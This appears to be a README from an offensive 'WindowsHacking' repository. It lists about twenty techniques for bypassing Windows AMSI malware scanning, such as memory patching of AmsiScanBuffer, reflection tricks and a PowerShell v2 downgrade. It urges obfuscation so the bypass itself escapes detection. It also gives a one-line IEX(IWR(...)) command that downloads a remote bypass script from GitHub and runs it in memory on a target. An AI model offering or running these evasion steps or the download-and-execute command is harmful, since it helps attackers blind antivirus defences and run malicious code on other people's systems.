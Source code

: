 List of 21 AMSI by pass techniques, implemented the AMSI bypasses defined in: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

Make sure to use the obfuscated verison of the AMSI bypass, since we need to trick the AMSI into not flagging the AMSI bypass script as malicious

1. ScriptBlock Smuggling
2. Reflection ScanContent Change
3. Using Hardware Breakpoints
4. Using CLR hooking
5. Patch the provider’s DLL of Microsoft MpOav.dll
6. Scanning Interception and Provider function patching
7. Patching AMSI AmsiScanBuffer by rasta-mouse
8. Patching AMSI AmsiOpenSession
10. Amsi ScanBuffer Patch from -> https://www.contextis.com/de/blog/amsi-bypass
11. Forcing an error
12. Disable Script Logging
13. Amsi Buffer Patch - In memory
14. Same as 6 but integer Bytes instead of Base64
15. Using Matt Graeber's Reflection method
16. Using Matt Graeber's Reflection method with WMF5 autologging bypass
17. Using Matt Graeber's second Reflection method
18. Using Cornelis de Plaa's DLL hijack method
19. Use Powershell Version 2 - No AMSI Support there
20. Nishang all in one
21. Adam Chesters Patch
22. Modified version of 3. Amsi ScanBuffer - no CSC.exe compilation
23. Patching the AmsiScanBuffer address in System.Management.Automation.dll


(not stealthy since network calls will get logged)
The scripts can either be run in powershell by fetching them from github and then executing them like so: 
`IEX(IWR("https://raw.githubusercontent.com/Rasmus3650/WindowsHacking/Main/AMSI/scripts/in_memory_patching/amsibp_working.ps1"))`

We can also create a new .ps1 file on the target and then executing this file with `./target_file.ps1` in powershell.

The powershell instance should now work without ever asking AMSI whether or not the code we are running is malicious 